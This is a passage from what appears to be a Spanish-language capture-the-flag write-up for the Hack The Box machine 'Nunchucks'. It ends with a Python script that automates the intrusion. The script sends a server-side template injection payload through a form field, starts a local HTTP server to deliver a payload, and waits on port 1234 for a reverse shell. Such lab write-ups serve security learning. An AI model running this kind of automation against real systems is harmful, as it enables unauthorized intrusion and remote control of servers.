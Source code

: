 ```python
    # el primer backslash del payload no va, es solo para que la sintaxis de md me deje poner el payload.
    post_data = { 
        "email": payload
     }
    print("[+] Explotando el SSTI")
    r = s.post(nunIP,data=post_data,verify=False)

def http_server():

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as so:
            so.bind(('localhost', 80))
            http_server = subprocess.Popen(["python3", "-m", "http.server", "80"])
    except OSError:
            print("\n[-] El puerto 80 se encuentra en uso, no se ha podido ejectuar el servidor")


if __name__ == '__main__':

    print("[!] Recuerda agregar el dominio nunchucks.htb y store.nunchucks.htb a tu /etc/hosts.")
    html_payload()
    sleep(2)   
    http_server()
    threading.Thread(target=ssti, args=()).start()
    shell = listen(1234,timeout=20).wait_for_connection()
    shell.interactive()
```
¡Listo! Terminamos la automatización de la intrusión.

Nos vemos, hasta la próxima.

